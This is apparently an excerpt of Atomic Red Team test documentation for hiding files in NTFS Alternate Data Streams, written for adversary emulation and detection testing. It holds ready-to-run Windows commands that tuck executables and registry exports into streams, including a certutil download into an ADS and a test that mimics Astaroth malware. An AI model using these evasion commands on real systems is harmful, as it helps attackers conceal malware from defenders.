 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1564.004/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```

<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)

Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.
Upon execution cmd will run and attempt to launch desktop.ini. No windows remain open after the test

**Supported Platforms:** Windows

**auto_generated_guid:** 2ab75061-f5d5-4c1a-b666-ba2a50df5b02

#### Inputs:

| Name          | Description                         | Type   | Default Value                                                   |
| ------------- | ----------------------------------- | ------ | --------------------------------------------------------------- |
| payload_path  | Path of file to hide in ADS         | path   | c:&#92;windows&#92;system32&#92;cmd.exe                         |
| ads_file_path | Path of file to create an ADS under | path   | C:&#92;Users&#92;Public&#92;Libraries&#92;yanki&#92;desktop.ini |
| ads_name      | Name of ADS                         | string | desktop.ini                                                     |

#### Attack Commands: Run with `powershell`!

```powershell
if (!(Test-Path C:\Users\Public\Libraries\yanki -PathType Container)) {
    New-Item -ItemType Directory -Force -Path C:\Users\Public\Libraries\yanki
    }
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:

```powershell
Remove-Item "#{ads_file_path}" -Force -ErrorAction Ignore
```
